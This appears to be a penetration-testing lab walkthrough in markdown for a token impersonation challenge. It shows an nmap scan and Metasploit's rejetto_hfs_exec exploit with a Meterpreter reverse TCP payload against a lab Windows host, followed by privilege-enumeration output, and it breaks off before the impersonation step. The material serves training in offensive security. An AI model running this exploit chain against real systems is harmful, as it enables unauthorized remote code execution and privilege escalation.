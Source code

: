 

<details><summary>Reveal Flag - Administrator NTLM Hash is: 🚩</summary></details>



------

## Lab 3 - Token Impersonation

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> - Target IP: `10.2.16.163`
> - Check the [🔬Access Token lab here](../1-system-attack/windows-attacks/accesstoken.md) that already covered the Incognito tool
>
> - Metasploit **Token Impersonation with Incognito** inbuilt Meterpreter module
> - [Access Token Impersonation - Description](../1-system-attack/windows-attacks.md#access-token-impersonation)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.16.163
setg RHOST 10.2.16.163
workspace -a Impersonate
db_nmap -sV 10.2.16.163
```

```bash
80/tcp   open  http          HttpFileServer httpd 2.3
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
	
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege # Token Impersonation can be performed
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege

```